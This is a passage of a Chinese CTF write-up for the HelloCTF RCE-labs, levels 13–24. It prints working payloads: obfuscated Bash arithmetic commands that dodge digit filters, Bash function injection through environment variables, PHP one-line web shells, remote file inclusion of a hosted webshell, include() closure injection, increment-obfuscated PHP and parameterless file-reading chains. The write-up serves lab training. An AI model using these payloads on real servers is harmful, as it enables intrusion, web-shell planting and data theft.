

**概念概括：**

利用 Bash 算术扩展 `$(())` 默认为 `0` 的特性，配合按位取反符 `~`，在**无数字输入**时构造整数：

1. **获取 0**：`$(())` 即 `0`。
2. **获取 -1**：`$((~$(())))` 即 `~0`，得到 `-1`。
3. **构造任意数**：Bash 算术扩展允许把多个表达式直接连在一起，它们会被当作**减法或负号处理**，把多个 `-1` 用加减乘除拼接，即可算出任意正负整数，进而转成 ASCII 字符拼出命令，绕过数字黑名单。

payload

```
__=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$(())\\$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

url编码一下传参就可获得flag


# level 14

## **命令执行	7字符RCE**

这题很简单，七字符直接 cat /f*刚刚好，但是这题源码写的有问题



题目只显示一个 too long 大概是题目源码有问题，但是也可爆出传参的键值

用arjun可以直接爆出这里get参数的键名为 1



get传个 /?1=a,可以看到源码，这里exit导致highlight_file(`__FILE__`);不执行所以题目源码不显示




# level 15

## **命令执行	5字符RCE**



核心思路：此题无回显，利用`>`创建文件 `ls -t`生成倒序脚本，把文件名作字符片段拼成命令

```
>a    #虽然没有输入但是会创建a这个文件
ls -t    #ls基于基于事件排序（从晚到早）
sh a    #sh会把a里面的每行内容当作命令来执行
使用\进行命令拼接    #l\s    =    ls
base64    #使用base64编码避免特殊字符
```

首先要注意的是, 这里的执行命令函数不再是`system()`, 而是 `exec()`

这个函数可以执行系统命令, 但是并不会把命令结果直接输出

所以这个时候就要想能不能写入木马, 或者执行命令反弹Shell

在写入木马的话, 我们终端是处于一个 "沙盒" 的文件夹中, 想要通过网页服务访问到里面的木马, 似乎有点难

所以本题还是想办法 反弹Shell或者把flag写到可读目录

试了好久一直无法成功写入flag，外带也不成功，感觉应该是题目环境有点问题

- - 

# level 16

## **命令执行	4字符RCE**

思路和上面一题一样，就是只能输入4个字符了


# level 17

## **命令执行	PHP命令执行函数**



此题和level3差不多，也就是工具抽到的函数方法去调用对应的命令，或者构造闭合

这里直接用给的函数去解




# level 18

## **命令执行	环境变量注入**

这题很有意思，通过环境变量改函数的具体定义，学习链接 P神的帖子https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html (剖析的很透彻)

在bash4.4及以上版本中，可以通过修改环境变量ENV来修改部分函数的定义。这里我们通过修改envs的echo函数定义。将其指向我们想要的任意命令，即可实现RCE



题目没有给上传点，我们通过对环境变量的注入修改echo

payload

```
GET 方式：envs[BASH_FUNC_echo%%]=() {%20cat%20%3Bflag%20}

POST方式：envs[BASH_FUNC_echo%25%25]=() { cat /flag; }
```

简单总结下前面P神的帖子里的内容

- `BASH_ENV`：可以在`bash -c`的时候注入任意命令
- `ENV`：可以在`sh -i -c`的时候注入任意命令

与dash类似，我们通过`ENV`也可以注入命令，只不过也需要额外的参数：

```
ENV='$(id 1>&2)' sh -i -c "echo hello"
```

variables.c的`initialize_shell_variables`函数用于将环境变量注册成SHELL的变量，对其进行审计发现漏洞

我们传入下面这样一个环境变量，将会在Bash上下文中添加一个myfunc函数：

```
env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
```

我们只需要覆盖一些已有的“命令”，在后面执行这个命令的时候就可以执行到我们定义的函数里了

那么，回到前面题目的代码，只需添加来一个名为`echo`的函数，，这样在执行`echo hello`的时候实际上执行的是我添加的函数：

```
env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
```

### 


# level 19

## 文件写入导致的RCE



直接写一句话木马进去

```
function helloctf($code){
    // 将我们传入的 $code 拼接到 file_put_contents() 函数的参数位置
    $code = "file_put_contents(".$code.");";
    eval($code); // 执行拼接后的代码
}

```

查一下file_put_contents()传入参数的格式，发现我们需要构造`file_put_contents('shell.php', '<?php @eval($_POST["a"]); ?>');`

传入

```
?c="shell.php","<?php eval(\$_POST['a']); ?>"    //注意把一句话木马特殊字符url编码
```

中国剑蚁连接就可以了




# level 20

## 文件上传导致的RCE

没做任何过滤直接传一句话木马就行了

```
<?php
@eval($_POST['1']);
?>
```

后面的步骤不多赘述


# level 21

## 文件包含导致的RCE



注意：在本关卡中你传递的内容将以字符串的方式拼接在 include() 函数中,你需要区别这与 incluude($_GET['file']) 的区别

incluude($_GET['file']) 是包含一个文件的路径

include(".$code")是以字符串的方式拼接在 include() 函数中，意味着可以构造闭合进行注入

需要包含的文件`https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI`这中是`<?php @eval($_POST['a']); ?>`一句话木马，所以此题有两种解法：

**一.直接文件包含，执行一句话木马**

payload

```
post传参
c='https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI' && a=system("cat /flag");
```



**二.构造闭合执行任意代码**

payload

```
c="" );system($_POST["a"]);// && a=cat /flag
```

源码

```
function helloctf($code){
    $code = "include(".$code.");";
    echo "Your includeCode : ".$code;
    eval($code);
}

```

那么$code = "include(".$c.");";

payload poast传入之后实际eval

```
include("" );system($_POST["a"]);//);
a=cat /flag
```

于是获得flag




# level 22

## PHP 特性	动态调用



题目很简单，GET传参`?a=system&b=cat /flag`即可获得flag



解完了解下原理：

利用的是PHP 允许把字符串变量当成函数名来调用：

```php
func = 'system';
$func('ls');        // 等价于 system('ls')
```

函数名不是写死的，而是运行时才确定的，这就叫动态调用。

代码执行流程

```php
isset($_GET['a']) && isset($_GET['b']) ? $_GET['a']($_GET['b']) : null;
```

访问?a=system&b=ls时

PHP 把 `$_GET['a']` 的值当作函数名，把 `$_GET['b']` 的值当作唯一参数：

```php
$_GET['a']($_GET['b']);
// 实际执行：
system('ls');
```


# level 23

## PHP 特性	自增



```
自增：
这是一个编程语言中很常见的操作，我们一般在for循环会写到的语句 i++ 或者 ++i，这是一个自增操作，PHP也一样，只不过我们的变量名称不是很常见与之等效的 $_++ 或者 ++$_。
当我们对一个字符或者是字母进行自增操作时，PHP会将其转换为ASCII码，然后自增，然后再转换为字符。直观一点 A++ 将会输出 B，Z++ 将会输出 AA。++的位置决定语句的执行顺序，++在前面时会先进行自增操作。 $_ = ([].'')[0]; 在前面时输出B，后面时输出A。

所以通过特性的连用，你可以看到很多自增的Payload长这样：
payload=$_=(_/_._)[''=='_'];$_++;$__ = $_++;$__ = $_.$__;$_++;$_++;$_++;$__ = $__.$_++.$_++;$_ = $__;$__ ='_';$__.=$_;$$__[__]($$__[_]); 
&__=system 
&_=ls
```

```
$x = 'A';

echo $x++; // 输出 A，随后 $x 变成 B
echo ++$x; // 先把 $x 变成 C，再输出 C
```

利用这个自增组合出函数和命令，用前面的动态调用知识，执行任意代码

脚本

```
import requests

url = "http://80-c5db891e-b08d-49f8-a7d9-73db0f5f1e4c.challenge.ctfplus.cn/"

payload = "$_=(_/_._)[_];$__=++$_;$__=++$_.$__;++$_;++$_;$__=_.$__.++$_.++$_;$$__[__]($$__[_]);"

data = {
    "code": payload,
    
    "__": "system",
    
    "_": "cat /flag" 
}

r = requests.post(url, data=data)
print(r.text)
```

hackbar传参payload

```
code=%24_%3D%28%5B%5D.%27%27%29%5B%27%27%3D%3D%27_%27%5D%3B%24__%3D%24_%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%24___%3D%24__%3B%2B%2B%24__%3B%24____%3D%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%2B%2B%24__%3B%24_____%3D%24__%3B%2B%2B%24__%3B%24__%3D%27_%27.%24____.%24___.%24_____.%24__%3B%24___%3D%24%24__%3B%24___%5B%27__%27%5D%28%24___%5B%27_%27%5D%29%3B&__=system&_=cat%20%2Fflag
```


# level 24

## PHP 特性	无参命令执行

这题我不会，看wp写的

题目给出的信息

```
<?php 
include ("get_flag.php");
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : PHP 特性 - 无参命令执行 --- 

根据正则表达式的匹配规则，可以看到我们只能输入A(),这样的形式，括号中无法携带参数，但支持多个函数嵌套A(B(C())),这种形式我们称其为无参命令执行。
无参命令执行的难度首先是在于无参本身，这需要你利用一些函数特性外带参数绕过限制 —— 这可以从一些获取外部值的函数实现：
getallheaders()
session_id()
...
其次是对嵌套参数的处理 —— 当然不局限于外带进来的参数，一些诸如 localeconv() 的函数可以获取内部存在的一些参数如当前目录下面的文件信息等:
getchwd() ：函数返回当前工作目录。
scandir() ：函数返回指定目录中的文件和目录的数组。
dirname() ：函数返回路径中的目录部分。
chdir() ：函数改变当前的目录。

通常我们获取到的很多情况下是数组，所以有时候比较依赖对数组的操作，比如：
- array_reverse()：数组反转
- pos()：输出数组第一个元素
- next()：指向数组的下一个元素，并输出
...

随后是一些文件读取显示的操作：
- show_source() - 对文件进行语法高亮显示。
- readfile() - 输出一个文件。
- highlight_file() - 对文件进行语法高亮显示。
- file_get_contents() - 把整个文件读入一个字符串中。
- readgzfile() - 可用于读取非 gzip 格式的文件

...你随时可以通过查阅PHP官方手册中函数相关的部分来找到上面类似的内容。
*/

function hello_code($code){
    if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $code)){
        eval($code);
    }else{
        die("O.o");
    }
    
}

isset($_GET['code']) ? hello_code($_GET['code']) : null;

highlight_file(__FILE__);

?>
```

此题括号里不能写命令只可以嵌套无参函数

```
?code=var_dump(scandir(current(localeconv())));
```

调用链（从里往外）：

```
localeconv()            → 本地化信息数组
   current(...)         → 取数组第一个元素的“值” = "."
      scandir(".")      → 列出当前目录
         var_dump(...)  → 打印
```

得到数组 `array(6) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(8) "flag.php" [3]=> string(12) "get_flag.php" [4]=> string(9) "index.php" [5]=> string(7) "uploads" }`

知道有个flag.php，想办法读出来

```
?code=show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

| 步骤                             | 结果                                                         |
| -------------------------------- | ------------------------------------------------------------ |
| `scandir(current(localeconv()))` | `[0=>'.',1=>'..',2=>'flag.php',3=>'get_flag.php',4=>'index.php',5=>'uploads']` |
| `array_flip(...)`                | 键值互换 → `['.'=>0,'..'=>1,'flag.php'=>2,'get_flag.php'=>3,...,'uploads'=>5]`（**文件名变成了键名**） |
| `array_rand(...)`                | 返回数组的**随机键名**，于是返回一个随机文件名，如 `"flag.php"` / `"index.php"` ... |
| `show_source(...)`               | `show_source` 是 `highlight_file` 的别名，高亮输出该文件源码 |

